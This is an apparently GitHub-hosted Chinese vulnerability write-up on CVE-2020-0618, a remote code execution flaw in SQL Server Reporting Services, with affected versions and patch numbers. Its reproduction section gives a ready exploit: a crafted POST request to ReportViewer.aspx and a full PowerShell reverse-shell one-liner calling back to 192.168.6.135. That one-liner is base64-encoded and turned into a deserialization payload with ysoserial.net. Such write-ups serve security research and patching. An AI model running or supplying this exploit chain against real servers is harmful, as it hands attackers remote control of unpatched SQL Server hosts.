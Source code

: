 （CVE-2020-0618）SQL Server 远程代码执行漏洞
============================================

一、漏洞简介
------------

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting
Services) 发送特制请求进行触发。攻击成功可获得SQL
Server服务的对应控制权限。

二、漏洞影响
------------

  产品                                   版本                         修复补丁编号
  -------------------------------------- ---------------------------- --------------
  SQL Server 2016 Service Pack 2(GDR)    13.0.5026.0 - 13.0.5101.9    KB4505220
  SQL Server 2016 Service Pack 2 CU11    13.0.5149.0 - 13.0.5598.27   KB4527378
  SQL Server 2014 Service Pack 3 (GDR)   12.0.6024.0 - 12.0.6108.1    KB4505218
  Server 2014 Service Pack 2 CU4         12.0.6205.1 - 12.0.6329.1    KB4500181
  SQL Server 2012 Service Pack 4 (QFE)   11.0.7001.0 - 11.0.7462.6    KB4057116

三、复现过程
------------

首先登陆 ReportServer/pages/ReportViewer.aspx

    POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
    Host: target
    Content-Type: application/x-www-form-urlencoded
    Content-Length: X

    NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=

可以在PowerShell中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：

    $command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

    $encodedCommand = [Convert]::ToBase64String($bytes)

    .\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip

> 编译好的ysoserial.net下载地址：<https://github.com/ianxtianxt/ysoserial.net/>
>
> ps：上述命令在powershell里面执行好后，会自动黏贴到剪贴板上。

![](./.resource/(CVE-2020-0618)SQLServer远程代码执行漏洞/media/rId26.png)

参考链接
--------

> <https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/>
